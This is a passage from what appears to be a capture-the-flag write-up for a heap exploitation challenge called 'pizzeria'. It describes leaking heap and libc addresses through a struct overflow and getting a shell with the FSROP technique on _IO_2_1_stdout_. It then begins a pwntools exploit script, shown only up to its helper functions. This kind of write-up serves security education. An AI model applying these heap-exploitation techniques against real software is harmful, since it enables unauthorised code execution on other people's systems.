 Using the overflow we can modify some fields in the `pizza_order[1]` struct in order to leak a heap address. If we have a chunk at an address ending with `00` this becomes trivial as we can just make the last byte of `pizza_order[1]->name` zero and free the chuck. Now we can just call the `Show orders` option and read the chunk's `fd` pointer, which will be `heap_addr >> 12` if no other chunk is present in that tcache bin.

### Leaking libc base

Knowing the heap base, we can try something similar to leak libc.
The idea is to fake a big chunk (~ 0x400 size) and free it to get it in an unsorted bin. 
We can do this by allocating two pizzas using 0xff size for both name and description.
Now if we trigger the overflow again we can replace one of the chunk's sizes with a big one and let the program free it. As always, we can get the address as the `name` field of a pizza and use `Show orders` to leak the contents. The freed chunk will end up in the unsorted bin and its fd will point to a libc address.

### Shell

Now, following the same ideas, we can overwrite one of the buffers to point to `_IO_2_1_stdout_` and use the [angry FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/) technique in order to pop an easy shell.

Leaking the stack through libc variables and ropping is also a possibility.

### Final Exploit

```python
#!/usr/bin/env python3

from pwn import *

HOST = args.HOST if args.HOST else "localhost"
PORT = args.PORT if args.PORT else 1337

exe = ELF("./pizzeria")
libc = ELF("./libc.so.6")

context.binary = exe

gdbscript = """
"""


def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript=gdbscript)
    else:
        r = remote(HOST, PORT)

    return r


def add_pizza(
    idx: int, name_len: int, name: bytes, type: int, desc_len: int, desc: bytes
):
    r.sendlineafter(b" > ", b"1")
    r.sendlineafter(b"number? ", str(idx).encode())
    r.sendlineafter(b"name? ", str(name_len).encode())
    r.sendafter(b"Name please: ", name)
    r.sendlineafter(b" > ", str(type).encode())
    r.sendlineafter(b"the description? ", str(desc_len).encode())
    r.sendafter(b"on the pizza: ", desc)
    r.recvuntil(b"going to be baked and ready soon!\n")
```